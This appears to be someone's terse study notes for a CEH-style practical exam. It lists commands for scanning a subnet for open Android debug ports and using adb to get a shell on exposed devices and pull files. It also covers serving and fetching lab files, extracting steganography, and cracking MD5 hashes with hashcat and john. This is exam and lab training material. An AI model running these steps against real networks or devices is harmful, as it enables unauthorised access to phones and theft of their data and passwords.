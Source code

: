 Python server: 
->in windows folder where the flag fileis:  python -m http.server 8000  

-> from parrot: wget http://192.168.200.95:8000/pythonserver.txt 

 

Mobile: 
-> nmap -p 80,443,8080,8443,5228,5555 --open 10.10.55.0/24 

-> adb connect x.x.x.x:5555 

-> adb devices -l 

-> adb shell  

-> pwd 

-> ls ->cd Download->ls->cd sdcard (search for files) 

-> adb shell "find /sdcard/Scan -type f -name 'TestFile'" 

->or , adb shell find /sdcard/ -name ".jpg" -o -name ".png"  

->adb pull /sdcard/Downloads/CEH.jpg ./ceh.jpg 

-> Calculate entropy value: ent test.elf (update & sudo apt install ent) 

-> sha384sum test.elf 

-> steghide extract -sf island.jpg or use openstego(no pass required) 

 

Veracrypt: 

-> hash-identifier b0b9d4d024430f1422ebdf433dea8afe 

-> https://crackstation.net/ 

-> https://www.tunnelsup.com/hash-analyzer/ 

-> hashcat –m 0 hashes.txt /usr/share/wordlists/rockyou.txt 

-> john --format=raw-md5 hash.txt 

-> 

 

 
 

 

 

 

 

 

 

